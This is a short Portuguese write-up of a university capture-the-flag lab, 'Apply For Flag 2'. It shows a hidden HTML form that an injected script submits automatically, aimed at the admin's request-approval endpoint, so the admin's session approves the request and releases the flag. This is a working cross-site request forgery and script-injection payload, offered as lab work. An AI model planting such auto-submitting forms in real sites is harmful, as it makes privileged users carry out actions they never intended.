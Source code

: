 # Apply For Flag 2 - CTF Extra

Ao entrar no site verificamos que é semelhante ao site do CTF da semana 10 'Apply for flag', exceto desta vez o *request* tem um id especifico:

![Request ID](../img/applyforflag1.png)

Verificamos na página do admin que a porta da página muda de 5004 para 5005 e o form do *request* tem esta estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit"> 
        <input type="submit" id="giveflag" value="Give the flag" disabled="">   
    </div>
</form>
```

`request_id` é aquele apresentado na página inicial. Com isto em conta, construimos um novo form para aceitar o pedido:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo só isto, verifica-se que é feito um redirecionamento para o url da ação da form e não temos permissão para isto. 

![Não permissão](../img/applyforflag2.png)

Assim, devemos impedir o redirecionamento do nosso lado, mas que este seja feito do lado do admin de qualquer maneira, já que o admin tem permissão. Para isto, desabilitamos o javascript da página no nosso browser:

![Desativar javascript](../img/applyforflag3.png)

Fazendo de novo, verificamos que ja é feito o redirecionamento para a página certa, mas o request ainda não foi avaliado.

![Request not evaluated yet](../img/applyforflag4.png)

Isto acontece porque, ao desativar o javascript foi desativado o script que faz reload a página, pelo que é necessário fazer reload manualmente: 

![Flag](../img/applyforflag5.png)

Como é possivel observar, obtemos a flag.